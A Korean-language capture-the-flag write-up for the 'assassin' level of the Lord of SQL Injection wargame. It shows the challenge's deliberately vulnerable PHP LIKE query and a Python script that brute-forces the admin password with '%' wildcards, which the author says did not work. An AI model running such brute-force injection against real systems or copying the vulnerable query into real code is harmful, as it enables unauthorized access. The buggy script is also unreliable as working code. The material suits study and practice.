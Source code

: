 # > Lord of Sql injection: assassin

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

싱글쿼터 없이 비밀번호 유추만으로 id 값을 "admin" 으로 맞추어야 하는 듯하다. 이전 문제부터 와일드카드 중 `%` 기호를 이용해왔기에 응용해보자.

![image-20220609135424300](../img/image-20220609135424300.png)

갑자기 쉬워졌다고 생각하여 기존 코드를 조금 수정하여 시도하였는데 불가능하였다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(upw):
	url = f'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'{res}'+chr(i)+'%'
		response = my_request(upw)
		if i == 42:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```
